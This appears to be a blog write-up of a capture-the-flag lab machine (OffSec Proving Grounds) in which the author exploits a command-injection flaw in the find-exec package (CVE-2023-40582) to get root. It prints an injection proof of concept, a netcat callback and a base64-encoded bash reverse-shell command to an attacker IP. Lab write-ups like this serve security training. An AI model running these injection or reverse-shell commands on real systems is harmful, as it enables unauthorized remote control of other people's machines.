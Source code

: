 ```yaml
---
title: CTF-200-05 (OffSec. Proving Grounds)
description: Write-up of CTF-200-05 Machine
date: 2023-12-28 09:00:00 -3000
categories: [proving grounds]
tags: [find-exec, CVE, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Nmap scan report for 192.168.249.36 (192.168.249.36)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
|_http-title: Command Guess Game
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 3000:

Visiting Port 3000 we get greeted by this page


![port3000.png](../../assets/writeups/2023-12-27-CTF-200-05/port3000.png)

nothing too crazy here it just checks if the command exist,whats important here is to look at the bottom part of the webpage where it says `find-exec v1.0.2`

![find-execvuln.png](../../assets/writeups/2023-12-27-CTF-200-05/find-execvuln.png)

that package is vulnerable to `CVE-2023-40582` [Command Injection in find-exec | CVE-2023-40582 | Snyk](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)

> POC

```js
const findexec = require('find-exec');
findexec("; touch hacked")
```

so what it means is we can do something like `cat;id` and after the cat is executed it executes the id command too. Using that we get the reverse shell 

## Root User:

Initially I ran just simple `cat; nc <IP> 7777` which did got a callback but wasn't responsive so it must be `-e` switch of nc causing the problem so we can just encode the payload and send it again

```bash
echo "/bin/bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64
L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=
```

and running that,

```bash
cat;echo "L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=" | base64 -d | bash
```

we get a perfect root shell

![perfectrootshell.png](../../assets/writeups/2023-12-27-CTF-200-05/perfectrootshell.png)




